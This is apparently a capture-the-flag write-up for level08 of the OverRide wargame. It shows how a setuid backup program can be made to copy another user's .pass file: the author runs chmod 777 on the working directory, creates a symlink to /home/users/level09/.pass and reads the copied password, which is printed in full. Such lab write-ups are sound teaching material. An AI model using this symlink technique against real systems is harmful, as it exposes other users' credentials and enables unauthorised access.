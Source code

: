 # Level08 walkthrough

Trying to run our program without any arguments will result in an error message.
Getting an error message:
```
ERROR: Failed to open (null)
level08@OverRide:~$
```
After exploring in gdb, we have an understanding of workflow. Program ment to make a backup of file and log it's actions.
So there is static path to `./backups/` directory and we can't change it. But we can use path traversal or symlink to get access to the file we want to read.
So we can create symlink `pass` to level09 `.pass` file and run program with argument `pass` to get the password.
```
level08@OverRide:~$ ln -s /home/users/level09/.pass pass
ln: failed to create symbolic link `pass': Permission denied
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ ln -s /home/users/level09/.pass pass
```
And after creation just run program with argument `pass` and look into `./backups/pass` file.
```
level08@OverRide:~$ ./level08 pass
level08@OverRide:~$ cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
We're done here.